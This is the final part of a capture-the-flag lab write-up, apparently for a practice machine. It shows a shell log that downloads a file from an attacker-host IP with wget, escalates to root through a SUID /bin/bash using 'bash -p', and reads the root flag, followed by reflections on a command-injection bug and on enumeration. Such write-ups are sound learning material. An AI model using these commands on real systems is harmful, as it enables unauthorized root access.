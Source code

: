 ```bash
bash-4.4$ cd /tmp
cd /tmp
bash-4.4$ wget http://10.10.14.15:8081/test.pdf
wget http://10.10.14.15:8081/test.pdf
--2023-04-01 10:11:50--  http://10.10.14.15:8081/test.pdf
Connecting to 10.10.14.15:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4576 (4.5K) [application/pdf]
Saving to: 'test.pdf'

test.pdf.1          100%[===================>]   4.47K  --.-KB/s    in 0.001s  

2023-04-01 10:11:50 (3.19 MB/s) - 'test.pdf' saved [4576/4576]


bash-4.4$ ls -la /bin/bash
ls -la /bin/bash
-rwsr-xr-x 1 root root 1113504 Apr 18  2022 /bin/bash
bash-4.4$ /bin/bash -p 
bash-4.4# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
bash-4.4# cat /root/root.txt
cat /root/root.txt
f64108af50796213d7a500029861c6cc
bash-4.4# 
```

And we're done!

## Conclusion

When enumerating, I missed the subdomain in the response headers, which led to a whole lot of nothing.  With the API endpoint found, fuzzing the query parameter and determining the functionality was fairly straight forward.

The presence of a command injection into the cleanup script seemed obvious, but I hadn't come across this particular flavour (arithmetic expression) of injection before.

This machine was another reminder to take enumeration slowly and be deliberate -- don't just fuzz and spray payloads at endpoints blindly hoping to find something.